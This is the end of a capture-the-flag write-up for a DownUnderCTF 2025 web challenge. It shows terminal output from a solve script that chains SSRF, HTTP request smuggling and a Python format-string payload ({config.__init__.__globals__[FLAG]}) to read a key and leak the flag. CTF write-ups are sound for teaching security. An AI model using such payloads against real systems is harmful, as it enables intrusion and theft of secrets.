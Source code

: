 > Note: In the remote instance, our IP address will be rotated. So we need to update all of our IP addresses.

To automate the above steps, I've written the following Python solve script:

<details class="toc"><summary markdown="span"><strong>solve.py</strong></summary></details>

```shell
┌[siunam♥Mercury]-(~/ctf/DownUnderCTF-2025/web/sodium/src)-[2025.07.23|15:08:55(HKT)]
└> python3 solve.py    
[*] Registering user DqXxJwOSxW with password "cUaRrEvBPH"...
[+] Registered successfully
[*] Logging in as user DqXxJwOSxW...
[+] Logged in successfully
[*] Reading authentication key via SSRF...
[+] Got authentication key: 2e48228116c6ae588ba6155859f0f2cf67e81f01
[+] Client IP address: 10.104.1.29
[+] Client IP address: 10.104.1.22
[+] Client IP address: 10.104.1.22
[+] Client IP address: 10.104.1.22
[+] Client IP address: 10.104.1.29
[+] Client IP address: 10.104.1.29
[+] Client IP address: 10.104.1.29
[+] Client IP address: 10.104.1.22
[+] Client IP address: 10.104.1.29
[+] Client IP address: 10.104.1.29
[*] Updating allow list to allow IP address 10.104.1.29...
[*] Updating allow list to allow IP address 10.104.1.22...
[+] The allow list should be updated
[*] Getting log with parameter (Without URL encoding): {config.__init__.__globals__[FLAG]}
[*] Getting log with parameter: {'get_log': True}
[+] Flag: DUCTF{th3y_s33_m3_smuggl1ng_4nd_ch41n1ng}
```

- **Flag: `DUCTF{th3y_s33_m3_smuggl1ng_4nd_ch41n1ng}`**

## Conclusion

What we've learned:

1. SSRF to arbitrary file read
2. SPILL.TERM HTTP/1.1 request smuggling
3. Python format string vulnerability